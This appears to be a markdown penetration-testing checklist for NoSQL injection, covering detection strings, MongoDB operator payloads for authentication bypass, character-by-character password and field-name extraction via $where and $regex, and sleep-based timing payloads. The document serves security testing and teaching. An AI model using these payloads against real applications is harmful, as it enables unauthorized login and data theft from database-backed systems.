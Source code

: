 # NoSql
NoSQL injection may enable an attacker to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.

Two types of injection
1. Syntax injection
2. Operator injection

## Syntax Injection

- [X] Detection
Try param injection with the following
  - Test 1
      ```
      '"`{
      ;$Foo}
      $Foo \xYZ
      ```
      and if injection location is URL then `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
      If injection location is json then ```'\"`{\r;$Foo}\n$Foo \\xYZ\u0000```

  - Test 2
      See if there is response difference between `'''` and `'\''`
  - Test 3
    check `'` or `'+'` to see if there is change or error.
    **Warning**: Always do url encoding or unix, html, etc encoding before sending the request
- [X] Confirmation
Checking if boolean condition can be effected
  - To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
- [X] Override existing condition
  - inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`
  - commenting out using null addition in the query `'%00` for url and `'\u0000` for json


## Operator injection
- [X] **Operators List**: Send different operators and review the response
`$where` - Matches documents that satisfy a JavaScript expression.
`$ne` - Matches all values that are not equal to a specified value.
`$in` - Matches all of the values specified in an array.
`$regex` - Selects documents where values match a specified regular expression.

- [X] In **JSON** messages, Nested query object `{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}`.
- [X] **URL**-based inputs, Insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`
- [X] Other alternatives, 
    1. Convert the request method from GET to POST.
    2. Change the `Content-Type` header to `application/json`.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.

### Detecting operator injection in MongoDB
`this.<field-name>` can be used in field
- [X] `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
- [X] `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- [X] If query uses `$where` operator (`{"$where":"this.username == 'admin'"}`) then we can inject something conditional statements like `admin' && this.password[0] == 'a' || 'a'=='b` or `admin' && this.password.match(/\d/) || 'a'=='b`
- [X] Payload can be used for extraction `administrator' && this.password.length < 30 || 'a'=='b`
- [X] Identify field name using `admin' && this.username!=' ` where username is the field name and analyse the response for those which field exists and which does not.
- [X] Exploiting NoSQL operator injection to extract data/field names
  1. To test whether you can inject operators, you could try adding the `$where` operator as an additional parameter, then send one request where the condition evaluates to `false`, and another that evaluates to `true`. For example:
`{"username":"wiener","password":"peter", "$where":"0"}` and `{"username":"wiener","password":"peter", "$where":"1"}`
  2. If the operator injection was successful, then use `keys()` to extra data field. e.g. `"$where":"Object.keys(this)[0].match('^.{i}a.*')"`  where `i`:1-10 is the place where `a` is matched
  3. `regex` operator injection `{"username":"admin","password":{"$regex":"^.*"}}` or `{"username":"admin","password":{"$regex":"^.{i}a.*"}}` where `i`:1-10 is the place where `a` is matched


### Timing based injection
- [x] Take a lot of request and calculate the average response time
- [x] Insert time payload `{"$where": "sleep(5000)"}`
  - [x] `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  - [x] `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
- [x] Check whether response is delayed or not